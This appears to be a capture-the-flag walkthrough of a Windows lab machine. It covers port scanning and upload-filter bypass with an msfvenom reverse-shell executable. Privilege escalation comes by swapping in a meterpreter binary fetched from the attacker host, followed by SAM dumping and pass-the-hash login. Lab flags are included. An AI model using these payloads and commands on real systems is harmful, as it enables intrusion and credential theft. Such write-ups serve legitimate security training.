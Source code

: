 # Windows Machine

## Machine Info





## Ports Scan

```bash
nmap -T4 -sV -p- --min-rate 1000 --open -oN port_scan.txt 10.200.150.151

Nmap scan report for 10.200.150.151
Host is up (0.056s latency).
Not shown: 63869 closed tcp ports (reset), 1651 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8081/tcp  open  http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
8443/tcp  open  ssl/http      Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```



## Breach&#x20;

<figure><img src="../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>



### Dir/File Enum

Try to find a directory where the CV are uploaded.

{% code overflow="wrap" %}
```
gobuster dir -u http://10.200.150.151:8081/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

An atttacker with access to this directory could read all uploaded CV.



### Bypassing File Upload filter

The page allow a user to upload only PDF file. An atacker can create a .exe payload with msfvenom like this:

{% code overflow="wrap" %}
```bash
msfvenom --platform windows -p windows/shell_reverse_tcp LHOST=10.250.1.6 LPORT=9009 -f exe -o cv.exe
```
{% endcode %}

Then, rename the file into cv.exe.pdf to bypass the extension filter.

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

When, someone open the file the .exe payload will execute and an attacker will obtain a reverse shell as user which has open the file.

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>



### User Flag

As a user we can get the user flag

```
more C:\user.txt

THM{cb7f295d-395a-4df1-9160-3036d89999d7}
```



## Privilege Escalation

### Insecure File Permissions

There are a file named `backup.exe` in the `C:\backup` directory that the `HT` user has Full rights.

```powershell
PS C:\backup> icacls backup.exe
icacls backup.exe
backup.exe NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Administrators:(I)(F)
           BUILTIN\Users:(I)(RX)
           JOBIFY\hr:(I)(F)
```

It's look like a file which run periodically by a Scheduled Task.

Check the Scheduled Task

```powershell
schtasks /query /fo LIST /v

Folder: \
HostName:                             JOBIFY
TaskName:                             \createBackup
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        7/1/2025 5:52:51 PM
Last Result:                          0
Author:                               JOBIFY\hr
Task To Run:                          C:\backup\backup.exe 
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          superAdmin
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        On demand only
Start Time:                           N/A
Start Date:                           N/A
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A

[..snip..]
```

An attacker can replace that executable with a malicious payload.

{% code title="Payload crafting" overflow="wrap" %}
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.250.1.6 LPORT=4444 -f exe  > backup.exe
```
{% endcode %}

```
PS C:\backup> rm backup.exe

PS C:\backup> curl http://10.250.1.6/backup.exe -o backup.exe

PS C:\backup>schtasks /run /tn createBackup
```

When the scheduled task will run, an attacker will obtain a session as `superadmin` user.

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

### SeBackupPrivilege

An attacker with a session as Admin user can dump the SAM and SYSTEM file to obtain all local NTLM hash.

```
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

```
download sam
download system
```

```
impacket-secretsdump -sam sam -system system LOCAL
```

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

And then access through WinRM with the Pass-the-Hash technique.

### Access as Admin via WinRM

```bash
evil-winrm -i 10.200.150.151 -u 'Administrator' -H 'ce34537beb33e22cc4317c06605a5c2c'
```

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>



### Root Flag

```powershell
more C:\Users\Administrator\root.txt

THM{8697b02c-4577-4781-91ba-107d323e49b0}
```



## For mitigation

{% embed url="https://learn.microsoft.com/en-us/answers/questions/1087721/how-to-disable-seimpersonate-privilege-for-a-user" %}
